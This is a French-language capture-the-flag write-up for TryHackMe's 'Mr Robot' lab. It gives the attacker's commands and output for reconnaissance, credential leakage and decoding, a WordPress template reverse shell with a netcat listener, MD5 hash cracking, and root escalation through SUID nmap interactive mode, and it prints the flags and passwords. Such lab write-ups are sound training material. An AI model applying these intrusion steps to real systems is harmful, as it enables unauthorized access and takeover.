 # Mr Robot CTF

### What is key 1?
---

Indice: Robots

> Commençons par une analyse Nmap. Nmap révèle 3 ports, dont 2 sont ouverts (http et https). SSH semble être fermé.

```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

> Commençons par le serveur Web. Assisté par l’indice, obtenons le fichier. Il divulgue 2 fichiers cachés, dont 1 étant la key 1. `robots.txt`

```
$ curl -s http://10.10.185.196/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
unknown@localhost:/data/documents/challenges/TryHackMe/Mr_Robot_CTF$ curl -s http://10.10.185.196/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

On peut voir que le deuxième fichier est un dictionnaire, que nous devrons probablement utiliser pour la découverte d’autres emplacements.

```
$ head fsocity.dic 
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```
**Key 1:** `073403c8a58a1f80d943455fb30724b9`

### What is key 2?
---

Indice: Police de couleur blanche

gobuster découvre plusieurs endroits, dont :

/login (Statut : 302)
/wp-content (État : 301)
/admin (Statut : 301)
/wp-login (Statut : 200)
/license (Statut : 200)
/wp-includes (État : 301)
Worpress est installé. De plus, l’annuaire divulgue les informations d’identification : `/license`

```
$ curl -s http://10.10.185.196/license | tr -d "\n"
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a password or something?ZWxsaW90OkVSMjgtMDY1Mgo=

$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

On peut voir aussi deux utilisateurs:

| Nom d'utilisateur | Nom | Email | Profil |
|-------------------|-----|-------|--------
|Elliot|Elliot Alderson|elliot@mrrobot.com|Administrateur|
|mich05654|krista Gordon|kgordon@therapist.com|Abonné|

Comme nous sommes administrateurs, nous pouvons modifier les modèles. Allez dans Apparence > Editor et modifiez le premier modèle (404.php) en remplaçant le code PHP par un shell inversé tiré d’ici. Assurez-vous de mettre votre adresse IP locale.

Ouvrez maintenant un écouteur :

```
$ nc -nlvp 1234
```

Et visitez pour ouvrir la coque inversée. `http://10.10.185.196/404.php`

Nous voyons notre prochaine clé mais elle n’est lisible que par l’utilisateur. `/home/robot` `robot`

```
$ ls -l /home/robot/
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
$ whoami
daemon
```

Nous recevons également le hachage MD5 du mot de passe de Mr Robot:

```
$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Ce hachage a été trouvé [ici](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b). Essayons de nous connecter en tant que `abcdefghijklmnopqrstuvwxyz` `robot`

```
$ su - robot
su: must be run from a terminal
```

Erreur... OK, pas de problème, créons un shell avec python:

```
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su - robot
su - robot
Password: abcdefghijklmnopqrstuvwxyz
$ whoami
whoami
robot
$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

**Key 2:** `822c73956184f694993bede3eb39f959`

### What is key 3

Indice: nmap

Notre dernière clé se trouve très probablement dans le répertoire, et nous aurons besoin d’une escalade de privilèges pour y accéder. `/root`

L’analyse nmap révèle que le port 22 (ssh) est fermé, probablement parce que le service n’est pas démarré. Nous aurions besoin d’élever nos privilèges.

Malheureusement, notre utilisateur n’est pas dans les sudoers: `robot`

```
$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
```

OK, trouvons quels programmes nous avons avec l’ensemble de bits appartenant à : `SETUID` `root`

```
$ find / -user root -perm -4000 -print 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Fait intéressant, nmap est sur la liste (c’est aussi l’indice BTW). En outre, il s’agit d’une très ancienne version (3.81), étant donné que la version actuelle est 7.92 au moment de la rédaction de ce Writeup.

```
$ which nmap
which nmap
/usr/local/bin/nmap
$ nmap --version
nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

En outre, nmap a le bit défini, ce qui signifie que nous pourrons exécuter des commandes en tant que root: `SETUID`

```
$ ls -l /usr/local/bin/nmap
ls -l /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```

Commençons en mode interactif : nmap

```
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !ls /root
!ls /root
firstboot_done  key-3-of-3.txt
waiting to reap child : No child processes
nmap> !cat /root/key-3-of-3.txt
!cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
waiting to reap child : No child processes
```

**Key 3:** `04787ddef27c3dee1ee161b21670b4e4`